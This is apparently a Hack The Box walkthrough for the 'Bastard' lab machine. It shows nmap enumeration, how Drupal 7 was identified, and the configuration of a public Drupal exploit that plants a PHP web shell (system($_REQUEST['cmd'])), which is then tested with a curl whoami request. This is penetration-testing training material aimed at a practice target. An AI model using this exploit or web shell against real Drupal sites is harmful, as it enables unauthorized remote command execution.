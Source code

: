 # Bastard - Hack The Box Walkthrough

**Target IP**: `10.10.10.9`  
**Hostname**: `bastard.htb`  

---

## Initial Setup

### Preparing the Environment
1. Store the target IP in a file for reuse:
   ```bash
   echo 10.10.10.9 > target
   ```
2. Add the target to your `/etc/hosts` file for easier navigation:
   ```
   10.10.10.9   bastard.htb
   ```

---

## Enumeration

### Full Port Scan
I conducted a full TCP port scan to identify open ports:
```bash
nmap -p- -v -iL target -oN nmap/full_tcp_scan.txt
```

**Open Ports**:
- 80/tcp -
- 135/tcp - MSRPC
- 49154/tcp - MSRPC

```bash
nmap -p80,135,49154 -A -v -iL target -oN nmap/target_ports.txt
```

```
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
```

### Port 80

The port 80 show me a Drupal login.
You can read the version on nmap or also runngin the command:

```bash
curl -s http://bastard.htb/CHANGELOG.txt | grep -m2 ""
```

Here you can read the CHANGELOG: http://bastard.htb/CHANGELOG.txt .
Here you can read the README: http://bastard.htb/README.txt .

![image](https://github.com/user-attachments/assets/bd363a40-deab-47b1-95dc-5a3b75cb61f9)

Then I looking for known vulnerabilities:

```bash
searchsploit Drupal 7
```

I try to run several payload the only one that I successfully run was `php/webapps/41564.php`:

![Screenshot from 2025-01-11 11-03-56](https://github.com/user-attachments/assets/3ed8366f-41cc-4cbd-ac4b-5376087bf787)

I copied it locally by running:

```bash
searchsploit -m php/webapps/41564.php
```

There are some settings to change:

* url
* rest endpoint
* command to execute

![Screenshot from 2025-01-11 10-33-25](https://github.com/user-attachments/assets/645bf428-9c10-4d64-8a62-cdc6be4cef3a)

The url we already known, we need to find out the rest endpoint, to achive it I run `ffuf` command to enumerate directories:

```bash
ffuf -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
-u "http://bastard.htb/FUZZ"
```

I discover the `rest` folder and I test it with curl:

![Screenshot from 2025-01-11 11-10-34](https://github.com/user-attachments/assets/56c6d8c5-7f7d-411f-b419-0b892aa08c47)

Then I change the file settings:

```php
$url = 'http://bastard.htb';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
	'filename' => 'spread.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

![Screenshot from 2025-01-11 10-37-37](https://github.com/user-attachments/assets/89926a8b-7320-47d5-bd45-3b53a3cf250a)

To run the payload:

```bash
php 41564.php
```

But I got an error:

![Screenshot from 2025-01-11 10-38-24](https://github.com/user-attachments/assets/c26142ad-52cc-4772-9a6a-69480efc13de)

To fix it install the `php-curl` packet:

```bash
apt install php-curl
```

Then I run it again, it will create a new file:

![Screenshot from 2025-01-11 10-43-43](https://github.com/user-attachments/assets/6b036c20-f4bd-490f-ad60-1aab8978ed82)

You can test it by running:

```bash
curl "http://bastard.htb/spread.php?cmd=whoami"
```

![Screenshot from 2025-01-11 11-15-45](https://github.com/user-attachments/assets/87e6255d-b785-40bd-8a5a-73851cca01f4)

